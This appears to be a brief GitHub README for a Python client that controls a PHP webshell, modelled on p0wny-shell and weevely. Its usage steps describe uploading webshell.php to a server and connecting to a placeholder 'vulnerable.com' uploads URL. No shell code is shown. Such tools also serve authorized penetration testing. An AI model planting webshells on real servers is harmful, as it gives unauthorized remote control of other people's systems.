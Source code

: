 # Wefir's webshell
A custom webshell client written in python.
<br>
Inspired by <a href="https://github.com/flozz/p0wny-shell">P0wny-shell</a> and <a href="https://github.com/epinna/weevely3">weevely</a>.
## Usage
#### 1.Upload webshell.php to the server
#### 2.Connect to the webshell with the command:
```python3 client.py -u [https://vulnerable.com/uploads/webshell.php]```


